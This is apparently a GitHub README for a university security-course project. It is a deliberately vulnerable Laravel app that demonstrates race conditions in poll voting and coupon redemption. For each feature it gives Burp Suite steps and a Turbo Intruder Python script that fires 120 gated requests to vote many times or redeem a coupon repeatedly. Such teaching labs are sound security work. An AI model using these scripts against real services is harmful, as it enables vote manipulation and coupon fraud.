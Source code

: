 ## WIP - Race conditions in Laravel (demo)

Laravel is a very popular framework for building web applications in php. This is the reason we have chosen it for vulnerability demo purposes.

This repository contains demonstration of poor programming against race conditions. It contains several examples:

- Polls
- Coupons

In each part sleep is used to allow for easier exploit of race condition.

## Setup

1. Clone repository
2. Run `composer install`
3. Replace `.env` with `.env.example`
4. Create and connect to database
5. Run `php artisan migrate --seed` with default seeder
6. Run `php artisan serve` to start application. For testing race conditions local webserver should be used.
7. Log@in as `admin@admin.sk` and `adminadmin`

## Polls

First part is a simple polls app represented by Polls tab. In each poll user can vote only single time. Results of the poll can then be displayed in the Answers tab.

`/polls/2` (POST method) with body `answer: '5'`allows for voting in poll with id 2 and answer id 5

`/polls/revoke` allows for revoking all votes for currently logged in user

`/answers/` shows answer numbers for each poll

### Exploitation

1. Open up burp suite or similiar tool
2. Open inbuilt browser, login and navigate to polls
3. Start intercept mode and submit a vote
4. Copy request contents over to repeater
5. Boot up turbo intruder
6. Following script is used, where inside post the request to be repeated should be placed. Do not forget to put `\r\n\r\n` at the end of request (otherwise malformed HTTP request exception is raised)
```python
   def queueRequests(target, wordlists):
        engine = RequestEngine(endpoint=target.endpoint,
                               concurrentConnections=120,
                               requestsPerConnection=120,
                               pipeline=False)
        post = '''
            \r\n\r\n
            '''


        for i in range(1, 120):
            engine.queue(post, gate='race')

        engine.openGate('race');
        engine.complete(timeout=15)


        def handleResponse(req, interesting):
            if interesting:
                table.add(req)
```
7. Start attack and observe results. In case only one vote is added, make sure laravel is not run with `php artisan serve` but use local webserver like apache

## Coupons

Second part is a simple coupon redeeming app and can be found in Coupons tab. Simply choose a valid coupon and submit it in the Cart tab to redeem its value.

`/coupons/` lists all currently available coupons.

`/coupons/cart` lists current cart products with discount. Form for redeeming code is also supplied.

`/coupons/` (POST method) with body `code: 'AEZAKMI'` tries to redeem code AEZAKMI for current cart.

### Exploitation

1. Open up burp suite or similiar tool
2. Open inbuilt browser, login and navigate to coupons, choose suitable code
3. Navigate to cart, start intercept mode and apply chosen code
4. Copy request contents over to repeater
5. Boot up turbo intruder
6. Following script is used, where inside post the request to be repeated should be placed. Do not forget to put `\r\n\r\n` at the end of request (otherwise malformed HTTP request exception is raised)
```python
   def queueRequests(target, wordlists):
        engine = RequestEngine(endpoint=target.endpoint,
                               concurrentConnections=120,
                               requestsPerConnection=120,
                               pipeline=False)
        post = '''
            \r\n\r\n
            '''


        for i in range(1, 120):
            engine.queue(post, gate='race')

        engine.openGate('race');
        engine.complete(timeout=15)


        def handleResponse(req, interesting):
            if interesting:
                table.add(req)
```
7. Start attack and observe results. In case coupon is only redeemed once, make sure laravel is not run with `php artisan serve` but use local webserver like apache


## TODO

- [x] Polls
- [x] Coupons
- [x] Polls exploit
- [x] Coupons exploit
- [ ] Polls v2 (fixed)
- [ ] Coupons v2 (fixed)

## Licensing

Repository was created during semestral work in subject Information Technologies Security.
